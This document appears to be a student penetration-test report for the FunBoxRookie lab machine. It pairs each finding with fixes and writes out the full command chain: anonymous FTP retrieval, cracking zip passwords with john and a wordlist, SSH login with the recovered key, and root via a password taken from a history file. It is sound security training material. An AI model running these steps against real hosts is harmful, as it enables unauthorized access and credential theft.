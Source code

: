 # Penetration Test Report for Proving Grounds - FunBoxRookie
- **Author:** Joey Melo
- **Date:** March 18, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.99.107 (FunBoxRookie)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized clients is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the FunBoxRookie network. The tester is tasked with following methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the FunBoxRookie network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the FunBoxRookie network. When performing the attacks, the tester was able to gain access to the machine, primarily due to FTP misconfigurations and weak password policy. The host has been sucessfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 21, 22, 80
### FTP Enumeration
Upon manual enumeration of the available FTP service, the tester noticed it had anonymous access enabled which allowed the tester to read all files in the FTP folder.
The content comprised of multiple password-protected zip files and an encoded message from admin informing that these files contain ssh keys.
![](https://imgur.com/a/XgtC3eB)

## Initial Access
### Vulnerability Explanation
The FTP server allows anonymous access to sensitive files. Although these files are encrypted with password protection, the passwords used are weak and can be guessed with a simple word list. 
### Vulnerability Fix
Disable anonymous access to the FTP server and enforce a stronger password policy in the files. The tester recommends changing the files passwords immediately.
### Attack Walkthrough
Initial access was obtained to the FTP server with anonymous credentials and all files were transfer to the tester's machine.
```bash
ftp anonymous@192.168.99.107
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
```
The tester was able to decode the *.@admin* message and read its contents, which revealed that the zip files contain keys to the SSH server.
```bash
cat .@admins | base64 -d
```
<ss2>

Then, using a simple wordlist, two passwords were cracked. The zip files were extracted and they contained an access key to the SSH server. The tester decided to connect to the *tom* user.
```bash
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire
ssh -i id_rsa tom@192.168.99.107 
```
<ss3>

As proof of exploitation, the tester captured the *local.txt* flag.
<user-flag>

## Privilege Escalation
### Vulnerability Explanation
After establishing a foothold on the tagert, the tester noticed that the compromised user (*tom*) was a member of the *sudo* group, which allows him to execute commands with high privileges.
The tester also notice a *.mysql_history* file in the user's home directory, which contained a password. 
### Vulnerability Fix
Unless the *tom* user needs to execute privileged commands, remove him from the *sudo* group or limit its access to only specific applications. Morever, the tester recommends either not storing plaintext passwords in history files or backing up and cleaning these files frequently to avoid leaking sensitive information.
### Attack Walkthrough
A simple user and directory enumeration revealed that *tom* is a member of the *sudo* group, and his home directory contains the *.mysql_history* file.
```bash
id
ls -la
cat .mysql_history
```
<ss4>

The tester then successfully reused the captured password to execute high-privileged commands and obtain a *root* shell.
```bash
sudo su
```
<root-flag>

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.189.107

# Get FTP files
ftp anonymous@192.168.189.107 # blank password
ftp> ls -la
ftp> mget *
ftp> get .@admins
ftp> get .@users
ftp> exit
cat .@admins | base64 -d

# Crack zip files
for f in `ls *.zip`; do zip2john $f >> hashes.txt; done
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
unzip tom.zip # pwd=iubire

# Initial access
ssh -i id_rsa tom@192.168.189.107 
pwd; id; cat local.txt; ifconfig

# Privilege escalation
ls -la
cat .mysql_history # pwd=xx11yy22!
sudo su
cd /root
pwd; id; cat proof.txt; ifconfig
```
